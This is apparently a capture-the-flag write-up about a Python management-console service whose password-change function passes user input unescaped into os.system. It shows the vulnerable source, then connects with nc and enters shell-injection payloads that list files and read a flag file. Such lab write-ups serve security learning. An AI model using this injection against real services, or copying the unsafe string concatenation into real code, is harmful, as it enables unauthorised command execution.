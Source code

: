 ```python

        try:
                conn = httplib.HTTPConnection(domain)
                conn.request("GET", "/")
                conn.getresponse().read()
                print "Website is UP !"
        except Exception:
                print "Website is DOWN !"

def help_menu():
        print "Options : "
        print " help          : Show the help menu"
        print " change-master : Change the master password of the management console"
        print " ping-website  : Test website connectivity"
        print " exit          : Exit the console"

MENU_OPTIONS = {
        "help" : help_menu,
        "?" : help_menu,
        "exit" : exit,
        "change-master" : change_master,
        "ping-website" : ping_website
}

menu_loop()
```
Great! Here's a concatenation that we can exploit easily! It comes from the `function change_master`.

`
os.system('fakechroot -s fakeroot /usr/sbin/chroot /opt/services/management-service/ /bin/bash -c \'/bin/echo "' + password + '" > /master.txt\'')``
`
```bash
nc $URL 8787

######################
# Management console #
######################

Type '?' or 'help' for help.
> change-master
Enter the new master password : 
> "; ls * "

######################
# Management console #
######################

Type '?' or 'help' for help.
> change-master
Enter the new master password : 
> "; cat part1.flag "
```

